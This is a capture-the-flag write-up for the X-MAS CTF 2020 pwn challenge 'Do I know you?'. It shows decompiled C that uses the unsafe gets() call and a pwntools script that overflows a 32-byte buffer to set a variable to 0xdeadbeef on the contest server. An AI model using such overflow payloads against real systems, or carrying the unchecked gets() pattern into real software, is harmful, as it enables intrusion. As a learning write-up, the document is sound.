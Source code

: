 # xmas-ctf-2020

## Pwn - Do I know you?

*You walk on the street. This guy seems to recognize you. What do you do?*

**Target:** nc challs.xmas.htsp.ro 2008
**Author:** Th3R4nd0m

### Solution

Running the provided binary through Ghidra, we can see the decompiled code:

```c
{
  long in_FS_OFFSET;
  char local_38 [32];
  long local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Hi there. Do I recognize you?");
  gets(local_38);
  if (local_18 != 0xdeadbeef) {
    puts("Nope.....I have no idea who you are");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("X-MAS{Fake flag. You\'ll get the real one from the server }");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

and see that it's clearly a buffer overflow. By filling up `local_38` with 32 characters, we can then keep writing and overflow into `long_18` and as long as it is `0xdeadbeef` it'll print the flag! The key realization from a teammate was that `local_18` is a long, which is 8 bytes, so I needed to send `0x00000000deadbeef`. Here's his solution:

```python
from pwn import *
key = pack(0x00000000DEADBEEF, 64)
sock=remote('challs.xmas.htsp.ro', 2008)
res = sock.recv(4096,timeout=1)
print(res)
line = b'A' * 32 + key
print('sending: ', line)
sock.sendline(line)
sock.interactive()
```
